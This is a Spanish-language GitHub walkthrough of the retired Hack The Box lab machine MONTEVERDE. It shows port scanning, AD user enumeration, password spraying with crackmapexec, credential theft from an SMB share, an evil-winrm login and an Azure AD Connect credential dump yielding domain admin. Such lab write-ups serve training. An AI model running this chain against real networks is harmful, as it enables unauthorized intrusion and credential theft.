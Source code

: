 # MONTEVERDE-HTB

Desarrollo de la VM MONTEVERDE de HACK THE BOX (HTB)

## 1. Configuración de la VM

- La VM se encuentra en estado de retirada de HTB
- Se debe activar la VM para poder usarla, se requiere una suscripción PREMIUM.

## 2. Escaneo de Puertos

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# nmap -n -P0 -sS -sC -vv -oA full 10.129.127.11 
Warning: The -P0 option is deprecated. Please use -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-01 13:05 EDT
NSE: Loaded 125 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:05
Completed NSE at 13:05, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:05
Completed NSE at 13:05, 0.00s elapsed
Initiating SYN Stealth Scan at 13:05
Scanning 10.129.127.11 [1000 ports]
Discovered open port 135/tcp on 10.129.127.11
Discovered open port 445/tcp on 10.129.127.11
Discovered open port 139/tcp on 10.129.127.11
Discovered open port 53/tcp on 10.129.127.11
Discovered open port 3269/tcp on 10.129.127.11
Discovered open port 389/tcp on 10.129.127.11
Discovered open port 464/tcp on 10.129.127.11
Discovered open port 593/tcp on 10.129.127.11
Discovered open port 3268/tcp on 10.129.127.11
Discovered open port 88/tcp on 10.129.127.11
Discovered open port 636/tcp on 10.129.127.11
Completed SYN Stealth Scan at 13:05, 20.06s elapsed (1000 total ports)
NSE: Script scanning 10.129.127.11.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 13:05
NSE Timing: About 96.44% done; ETC: 13:06 (0:00:01 remaining)
Completed NSE at 13:06, 42.05s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 13:06
Completed NSE at 13:06, 0.00s elapsed
Nmap scan report for 10.129.127.11
Host is up, received user-set (0.29s latency).
Scanned at 2022-04-01 13:05:38 EDT for 62s
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE          REASON
53/tcp   open  domain           syn-ack ttl 127
88/tcp   open  kerberos-sec     syn-ack ttl 127
135/tcp  open  msrpc            syn-ack ttl 127
139/tcp  open  netbios-ssn      syn-ack ttl 127
389/tcp  open  ldap             syn-ack ttl 127
445/tcp  open  microsoft-ds     syn-ack ttl 127
464/tcp  open  kpasswd5         syn-ack ttl 127
593/tcp  open  http-rpc-epmap   syn-ack ttl 127
636/tcp  open  ldapssl          syn-ack ttl 127
3268/tcp open  globalcatLDAP    syn-ack ttl 127
3269/tcp open  globalcatLDAPssl syn-ack ttl 127

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24710/tcp): CLEAN (Timeout)
|   Check 2 (port 58125/tcp): CLEAN (Timeout)
|   Check 3 (port 23044/udp): CLEAN (Timeout)
|   Check 4 (port 59026/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-time: 
|   date: 2022-04-01T17:06:03
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte1.jpg" width=80% />


## 3. Enumeración

- Podemos enumerar utilizando ENUM4LINUX o AUTORECON.

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# enum4linux -a -M -l -d 10.129.127.11
```

- Se identifican usuarios de acceso al AD.

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte2.jpg" width=80% />

```
dgalanos
mhope
roleary
SABatchJobs
smorgan
svc-ata
svc-bexec
svc-netapp
```

## 4. Explotación

### 4.1. Cracking ONLINE

- Realizamos un ataque de cracking con los usuarios identificados. Tenemos dos opciones:
* Todos los usuarios con el diccionario ROCKYOU (que demoraría mucho)
* Todos los usuarios con contraseñas muy débiles. Usuario = Contraseña

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# crackmapexec smb 10.129.127.11 -u users.txt -p users.txt --shares --pass-pol           
SMB         10.129.127.11   445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:roleary STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:dgalanos STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:roleary STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:smorgan STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:svc-ata STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:roleary STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.127.11   445    MONTEVERDE       [+] Enumerated shares
SMB         10.129.127.11   445    MONTEVERDE       Share           Permissions     Remark
SMB         10.129.127.11   445    MONTEVERDE       -----           -----------     ------
SMB         10.129.127.11   445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.129.127.11   445    MONTEVERDE       azure_uploads   READ            
SMB         10.129.127.11   445    MONTEVERDE       C$                              Default share
SMB         10.129.127.11   445    MONTEVERDE       E$                              Default share
SMB         10.129.127.11   445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.129.127.11   445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.129.127.11   445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.129.127.11   445    MONTEVERDE       users$          READ            
SMB         10.129.127.11   445    MONTEVERDE       [+] Dumping password info for domain: MEGABANK
SMB         10.129.127.11   445    MONTEVERDE       Minimum password length: 7
SMB         10.129.127.11   445    MONTEVERDE       Password history length: 24
SMB         10.129.127.11   445    MONTEVERDE       Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.129.127.11   445    MONTEVERDE       
SMB         10.129.127.11   445    MONTEVERDE       Password Complexity Flags: 000000
SMB         10.129.127.11   445    MONTEVERDE       	Domain Refuse Password Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Store Cleartext: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Lockout Admins: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password No Clear Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password No Anon Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Complex: 0
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte3.jpg" width=80% />


### 4.2. Carpeta compartida

- Listamos las carpetas que tiene el usuario SABatchJobs
- El usuario tiene acceso a la carpeta USERS$

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# smbmap -H 10.129.127.11 -u SABatchJobs -p 'SABatchJobs' -R
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte4.jpg" width=80% />

- Accedemos a la carpeta compartida y vemos el contenido del archvivo AZURE.XML

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# smbclient \\\\10.129.127.11\\users$\\ -U SABatchJobs
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

		309503 blocks of size 4096. 303390 blocks available
smb: \> cd mhope
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020

		309503 blocks of size 4096. 303390 blocks available
smb: \mhope\> get azure.xml
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte5.jpg" width=80% />


- El archivo AZURE.XML contiene una credencial. Vamos a probar ese password con todos los usuarios que tenemos.

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte6.jpg" width=80% />

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# crackmapexec smb 10.129.127.11 -u users.txt -p '4n0therD4y@n0th3r$' --shares --pass-pol
SMB         10.129.127.11   445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.127.11   445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.129.127.11   445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
SMB         10.129.127.11   445    MONTEVERDE       [+] Enumerated shares
SMB         10.129.127.11   445    MONTEVERDE       Share           Permissions     Remark
SMB         10.129.127.11   445    MONTEVERDE       -----           -----------     ------
SMB         10.129.127.11   445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.129.127.11   445    MONTEVERDE       azure_uploads   READ            
SMB         10.129.127.11   445    MONTEVERDE       C$                              Default share
SMB         10.129.127.11   445    MONTEVERDE       E$                              Default share
SMB         10.129.127.11   445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.129.127.11   445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.129.127.11   445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.129.127.11   445    MONTEVERDE       users$          READ            
SMB         10.129.127.11   445    MONTEVERDE       [+] Dumping password info for domain: MEGABANK
SMB         10.129.127.11   445    MONTEVERDE       Minimum password length: 7
SMB         10.129.127.11   445    MONTEVERDE       Password history length: 24
SMB         10.129.127.11   445    MONTEVERDE       Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.129.127.11   445    MONTEVERDE       
SMB         10.129.127.11   445    MONTEVERDE       Password Complexity Flags: 000000
SMB         10.129.127.11   445    MONTEVERDE       	Domain Refuse Password Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Store Cleartext: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Lockout Admins: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password No Clear Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password No Anon Change: 0
SMB         10.129.127.11   445    MONTEVERDE       	Domain Password Complex: 0
SMB         10.129.127.11   445    MONTEVERDE       
SMB         10.129.127.11   445    MONTEVERDE       Minimum password age: 1 day 4 minutes 
SMB         10.129.127.11   445    MONTEVERDE       Reset Account Lockout Counter: 30 minutes 
SMB         10.129.127.11   445    MONTEVERDE       Locked Account Duration: 30 minutes 
SMB         10.129.127.11   445    MONTEVERDE       Account Lockout Threshold: None
SMB         10.129.127.11   445    MONTEVERDE       Forced Log off Time: Not Set
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte7.jpg" width=80% />

- Encontramos usuario: mhope y password: 4n0therD4y@n0th3r$ 

### 4.3. Conexión con EVIL-WINRM

- https://github.com/Hackplayers/evil-winrm - WinRM (Windows Remote Management) TCP/5985

```
┌──(root㉿kali)-[~/HT/MONTEVERDE]
└─# evil-winrm -i 10.129.127.11 -u mhope -p '4n0therD4y@n0th3r$'      
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte8.jpg" width=80% />

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte9.jpg" width=80% />

- Notamos que el usuario pertenece al grupo AZURE ADMIN y se ejecutan servicios de AZURE.

## 5. Elevación de Privilegios

- Si ejecutamos un whoami y services podemos notar servicios asociados a AZURE. No es común en un CTF encontrar estos servicios configurados.

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte10.jpg" width=80% />

- La VM tiene instalado el servicio "Microsoft Azure AD SYNC", ese servicio sirve para sincronizar el AD local con el AD Azure en la nube.
- Este servicio utiliza una BD MSSQL para la configuración y almacenar las credenciales de acceso y de conexión. Como la BD esta en local la cadena de conexión es conocidad, un investigador encontró las tablas y registros para obtener esta información sensible (Microsoft ya lo cambió). Aquí todo el detalle:  https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

- Subimos el binario y lo ejecutamos para no complicarnos mas.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> upload /root/TOOLS/AdDecrypt/AdDecrypt.exe 
Info: Uploading /root/TOOLS/AdDecrypt/AdDecrypt.exe to C:\Users\mhope\Documents\AdDecrypt.exe

                                                             
Data: 19796 bytes of 19796 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\mhope\Documents> upload /root/TOOLS/AdDecrypt/mcrypt.dll
Info: Uploading /root/TOOLS/AdDecrypt/mcrypt.dll to C:\Users\mhope\Documents\mcrypt.dll

                                                             
Data: 445664 bytes of 445664 bytes copied

Info: Upload successful!
```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte11.jpg" width=80% />

```
*Evil-WinRM* PS C:\Program Files\Microsoft Azure Active Directory Connect> C:\Users\mhope\Documents\AdDecrypt.exe -fullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL

```

<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte12.jpg" width=80% />

- Bingo, ya somos administradores!


<img src="https://github.com/El-Palomo/MONTEVERDE-HTB/blob/main/Monte13.jpg" width=80% />





















